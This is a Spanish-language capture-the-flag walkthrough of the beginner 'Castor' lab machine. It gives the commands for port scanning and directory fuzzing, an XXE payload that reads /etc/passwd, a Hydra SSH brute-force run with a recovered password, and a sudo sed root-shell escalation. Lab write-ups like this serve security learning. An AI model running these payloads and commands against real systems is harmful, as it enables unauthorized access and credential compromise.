










# **CASTOR**

**Dificultad:** Principiante

**Plataforma:** The Hackers Labs

**SO:** Linux


## Reconocimiento inicial

### **Escaneo de puertos con nmap**

nmap -p- -Pn -sVC --min-rate 5000 192.168.50.104




Resultado del escaneo

1. Puerto 22 - SSH
2. Puerto 80 - HTTP

Veo que corre en el puerto 80




Nada Interesante

### Realizo fuzzing para ver directorios y archivos

gobuster dir -u http://192.168.50.104 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt





Resultados:
1. /upload.php
2. /uploads

Accedo a upload.php



Mensaje del servidor cuando no envias XML y posible explotación XXE

### Explotación XXE

Mediante burpsuite cargo el payload y pruebo a explotar XXE 


```xml
<?xml version="1.0"?>
  <!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>
		 &test;
  </root> 
  ```




En /etc/passwd se encuentra el usuario castorcin

### Fuerza bruta con Hydra

Utilizo hydra con el usuario castorcin

hydra -l castorcin -P /usr/share/wordlists/rockyou.txt ssh://192.168.50.104



Obtengo las credenciales

Usuario: castorcin

Password: chocolate

### Acceso mediante ssh

Con las credenciales obtenidas pruebo acceso mediante SSH

ssh castorcin@192.168.50.104



Dentro del home del usuario encuentro user.txt y la flag



Veo permisos sudoers y el usuario puede usar el binario sed como root sin contraseña



### Escalada de privilegios

Consulto GTFObins para explotar sed

sudo sed -n '1e exec /bin/sh 1>&0' /etc/hosts



ROOT!!